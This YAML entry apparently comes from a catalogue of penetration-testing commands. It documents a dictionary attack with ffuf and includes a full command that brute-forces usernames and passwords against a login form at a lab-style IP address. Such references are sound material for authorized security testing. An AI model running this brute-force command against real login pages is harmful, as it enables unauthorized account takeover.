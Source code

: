 ```yaml
---
description: |
  Example dictionary attack with ffuf.

  Command Reference:

    Target_url: The target url to fuzz on
    
    Wordlist: Wordlist to use for directory busting
    
    w: wordlist parameter
    
    u: url parameter
    
    H: Custom header
    
    X: HTTP method
    
    fc: Status code to indicate success
    
    d: Data to send with the post request
    
    W1: Usernames to fuzz
    
    W2: Passwords to fuzz

command: |
  ffuf -w <wordlist_usernames>:W1,<wordlist_passwords>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.120.213/customers/login -fc 200
  
items:

target: |
  - Linux_target
  - MacOS_target
  - Windows_target
  
OS:
  - Linux
  - MacOS
  
environment: |
  - Web
  
command_types:
  - Brute_Force_Dictionary
  
references:
  - https://github.com/ffuf/ffuf
---
```

